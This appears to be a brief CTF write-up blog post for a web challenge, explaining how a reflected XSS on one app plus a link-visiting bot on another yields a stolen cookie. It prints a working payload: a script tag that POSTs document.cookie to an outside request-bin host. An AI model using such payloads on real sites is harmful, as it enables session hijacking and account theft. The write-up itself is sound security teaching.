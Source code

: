 ```yaml
---
layout: post
title:  server challenge aresx
image: /assets/img/aresx.png
date:   2022-08-29 21:52:19
tags:
- web
description: The challenge has two separate webpages one which is vulnerable to xss attacks and from which we must steal a cookie, and another where we can send links to be opened:
categories:
- web
---
```


The challenge has two separate webpages one which is vulnerable to xss attacks and from which we must steal a cookie, and another where we can send links to be opened:
![](/assets/img/2022-08-11-11-18-01.png)
Figure 1 The first app


![](/assets/img/2022-08-11-11-18-14.png)
Figure 2 Second app
The input to be opened by it is : 
http://vanilla.hub/?name=<script>fetch('https://enzvin6fpk7xtu0.m.pipedream.net', {method: 'POST',mode: 'no-cors',body:document.cookie});</script>


https://enqmimydnbiuecc.m.pipedream.net
For the purpose of this challenge request.bin

 ![](2022-08-11-11-18-26.png)
Figure 3 this is the stolen cookie
 ![](2022-08-11-11-18-35.png)
Figure 4 Vulnerable code in the application

 ![](2022-08-11-11-18-43.png)
Figure 5 Docker config hostname
Because the get request to the 3002 app will echo it to the page Reflected XSS is possible.  The bot on 3003 will open our request with the xss and we steal the cookie and then boom we’re done.
